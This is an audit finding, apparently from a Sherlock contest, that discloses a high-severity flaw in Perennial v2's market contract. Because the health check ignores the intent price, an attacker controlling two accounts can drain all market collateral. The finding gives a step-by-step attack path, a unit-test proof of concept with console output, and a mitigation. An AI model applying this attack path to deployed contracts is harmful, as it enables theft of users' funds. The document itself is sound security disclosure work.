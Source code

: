 Dizzy Rusty Osprey

High

# Anyone can steal all funds from the `market` due to lack of account health accounting for pending pnl from difference of intent price and market price.

**Summary**
When user opens position from signed intent, pending orders are created for 2 accounts (intent taker and maker) with user-specified price. Upon settlement, there is some pnl realized to both accounts due to difference of intent price and market price. The intent price is specified by the user and can be any number (like 0 or billions), creating huge profit for one account and huge loss for the other. The issue is that this pnl is not accounted for in account health at the time of order creation (only at the time of order settlement), meaning that any price is allowed, and then during settlement a huge bad debt can be created in one account, with the same profit in the other, allowing attacker to steal all funds from the `market`.

**Root Cause**
Intent `price` is only used in `Guarantee.notional`:
https://github.com/sherlock-audit/2024-08-perennial-v2-update-3/blob/main/perennial-v2/packages/perennial/contracts/types/Guarantee.sol#L71

And the only time when `Guarantee.notional` is used is during settlement (when accumulating checkpoint collateral):
https://github.com/sherlock-audit/2024-08-perennial-v2-update-3/blob/main/perennial-v2/packages/perennial/contracts/libs/CheckpointLib.sol#L222

Since settlement happens some time after the order is placed (not in the same transaction with adding order) and order can not be cancelled, this means that any intent price is accepted by the protocol without any checks (other than storage limitations).

**Internal pre-conditions**
None.

**External pre-conditions**
None.

**Attack Path**
Since intents can be easily created by any user, there are no pre-conditions for the attack. The scenario is as following:
- Attacker deposits some collateral into `account1` and `account2`
- Attacker signs intent with a small position (like `10`) and a price of `125000000` (or any other huge price) from `account1`
- Attacker uses `account2` to calls `market.update` with the signed intent from `account1`
- After the first settlement, one account has a loss of `10 * (125000000 - currentPrice)` (huge bad debt), and the other account is in the same profit (higher than total market collateral).
- Attacker withdraws all funds which `market` has.

**Impact**
All market collateral token balance is stolen.

There are also additional smaller impacts possible, such as:
- `collateralization` limit provided by user is verified incorrectly: it's verified at the time of order submission using the latest oracle price, disregarding the intent price, meaning that after settlement it can be way worse than user specified.
- user's account is bricked if the intent notional is close to int64.max/min (when trying to settle, this notional is added to user collateral, and collateral can overflow int64, reverting storage verification).
- maybe more

**PoC**
Add to `test/unit/Market.test.ts` in the `signer` context:
```solidity
it('signer create bad debt', async () => {
    factory.parameter.returns({
    maxPendingIds: 5,
    protocolFee: parse6decimal('0.50'),
    maxFee: parse6decimal('0.01'),
    maxFeeAbsolute: parse6decimal('1000'),
    maxCut: parse6decimal('0.50'),
    maxRate: parse6decimal('10.00'),
    minMaintenance: parse6decimal('0.01'),
    minEfficiency: parse6decimal('0.1'),
    referralFee: parse6decimal('0.20'),
    minScale: parse6decimal('0.001'),
    })

    const marketParameter = { ...(await market.parameter()) }
    marketParameter.takerFee = parse6decimal('0.01')
    await market.updateParameter(marketParameter)

    const riskParameter = { ...(await market.riskParameter()) }
    await market.updateRiskParameter({
    ...riskParameter,
    takerFee: {
        ...riskParameter.takerFee,
        linearFee: parse6decimal('0.001'),
        proportionalFee: parse6decimal('0.002'),
        adiabaticFee: parse6decimal('0.004'),
    },
    })

    const EXPECTED_PNL = parse6decimal('10') // position * (125-123)
    const TAKER_FEE = parse6decimal('6.15') // position * (0.01) * price
    const SETTLEMENT_FEE = parse6decimal('0.50')

    const intent: IntentStruct = {
    amount: POSITION.div(2),
    price: parse6decimal('125000000'),
    fee: parse6decimal('0.5'),
    originator: liquidator.address,
    solver: owner.address,
    collateralization: parse6decimal('0.01'),
    common: {
        account: user.address,
        signer: liquidator.address,
        domain: market.address,
        nonce: 0,
        group: 0,
        expiry: 0,
    },
    }

    await market
    .connect(userB)
    ['update(address,uint256,uint256,uint256,int256,bool)'](userB.address, POSITION, 0, 0, COLLATERAL, false)

    await market
    .connect(user)
    ['update(address,uint256,uint256,uint256,int256,bool)'](user.address, 0, 0, 0, COLLATERAL, false)
    await market
    .connect(userC)
    ['update(address,uint256,uint256,uint256,int256,bool)'](userC.address, 0, 0, 0, COLLATERAL, false)

    verifier.verifyIntent.returns()

    // maker
    factory.authorization
    .whenCalledWith(userC.address, userC.address, constants.AddressZero, liquidator.address)
    .returns([true, false, parse6decimal('0.20')])
    // taker
    factory.authorization
    .whenCalledWith(user.address, userC.address, liquidator.address, liquidator.address)
    .returns([false, true, parse6decimal('0.20')])

    await market.connect(userC)
        [
        'update(address,(int256,int256,uint256,address,address,uint256,(address,address,address,uint256,uint256,uint256)),bytes)'
        ](userC.address, intent, DEFAULT_SIGNATURE);

    oracle.at
    .whenCalledWith(ORACLE_VERSION_2.timestamp)
    .returns([ORACLE_VERSION_2, { ...INITIALIZED_ORACLE_RECEIPT, settlementFee: SETTLEMENT_FEE }])

    oracle.at
    .whenCalledWith(ORACLE_VERSION_3.timestamp)
    .returns([ORACLE_VERSION_3, { ...INITIALIZED_ORACLE_RECEIPT, settlementFee: SETTLEMENT_FEE }])
    oracle.status.returns([ORACLE_VERSION_3, ORACLE_VERSION_4.timestamp])
    oracle.request.whenCalledWith(user.address).returns()

    await settle(market, user)
    await settle(market, userB)
    await settle(market, userC)

    var loc = await market.locals(user.address);
    console.log("user collateral: " + loc.collateral);
    var pos = await market.positions(user.address);
    console.log("user pos: long = " + pos.long);
    var pending = await market.pendingOrders(user.address, 1);
    console.log("pending: long = " + pending.longPos + " collateral = " + pending.collateral);

    var loc = await market.locals(userC.address);
    console.log("userC collateral: " + loc.collateral);
    var pos = await market.positions(userC.address);
    console.log("userC pos: short = " + pos.short);
    var pending = await market.pendingOrders(userC.address, 1);
    console.log("pending: short = " + pending.shortPos + " collateral = " + pending.collateral);
})
```

Console output:
```solidity
user collateral: -624989391154680
user pos: long = 5000000
pending: long = 5000000 collateral = 10000000000
userC collateral: 625009384745320
userC pos: short = 5000000
pending: short = 5000000 collateral = 10000000000
```

**Mitigation**
The `InvariantLib.validate` should include guarantee notional in position health calculation (based on the latest oracle price). Additionally, I also suggest to limit the intent price to the latest oracle price +- 10% or so for sanity check as there might be the other attack vectors utilizing tiny positions with huge/low price and notional (possible overflow/underflow etc).